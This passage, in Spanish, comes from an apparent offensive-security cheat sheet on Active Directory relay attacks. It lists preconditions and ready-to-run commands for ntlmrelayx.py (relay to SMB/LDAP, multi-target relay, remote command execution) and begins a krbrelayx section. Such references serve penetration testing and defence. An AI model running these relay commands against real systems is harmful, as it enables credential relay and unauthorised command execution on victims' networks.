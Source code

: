[Volver al índice](#índice-de-técnicas)

---

## 11. NTLMRelayx (Relay de autenticación NTLM)
| Aspecto         | Detalle                                                                                      |
|-----------------|---------------------------------------------------------------------------------------------|
| **Descripción** | Herramienta para relayar autenticaciones NTLM capturadas (tras coerción o envenenamiento) hacia servicios como SMB, LDAP, HTTP, etc. Permite ejecución de comandos, creación de usuarios, extracción de secretos, etc. |
| **Condiciones** | El atacante debe recibir conexiones SMB/HTTP de la víctima y tener acceso al servicio destino. El relay depende de que SMB Signing (o LDAP signing) esté deshabilitado en el destino. |

**Herramientas y comandos:**
- **Linux:**  
  - **Impacket/ntlmrelayx.py:**  
    ```bash
    python3 ntlmrelayx.py -t smb://<target_smb> -smb2support
    ```
    - Relay a LDAP:
    ```bash
    python3 ntlmrelayx.py -t ldap://<target_ldap>
    ```
    - Relay múltiple:
    ```bash
    python3 ntlmrelayx.py -tf targets.txt
    ```
    - Ejecutar comandos:
    ```bash
    python3 ntlmrelayx.py -t smb://<target> -c <comando>
    ```

**Notas:**
- Suele usarse junto a técnicas de coerción o Responder.
- No conviene lanzar Responder y ntlmrelayx.py simultáneamente sobre SMB.

[Volver al índice](#índice-de-técnicas)

---

## 12. Krbrelayx (Relay de autenticación Kerberos)
| Aspecto         | Detalle                                                                                                           |
|-----------------|------------------------------------------------------------------------------------------------------------------|
| **Descripción** | Herramienta para relay de autenticaciones Kerberos (Kerberos relay), permitiendo el relay de tickets TGS a servicios como LDAP, HTTP, SMB, etc., incluso cuando NTLM no es una opción. |
| **Condiciones** | Requiere obtener un ticket de servicio (TGS) válido para el servicio objetivo y que los servicios destino no requieran protección adicional (S4U2Self/S4U2Proxy no mitigados, o configuración vulnerable). |

**Herramientas y comandos:**
- **Linux:**  
  - **krbrelayx (https://github.com/dirkjanm/krbrelayx):**  
    ```bash
    python3 krbrelayx.py -h
    # Ejemplo de uso típico:
    python3 krbrelayx.py --target ldap://<target_ldap> --ticket <ticket.kirbi>
    ```

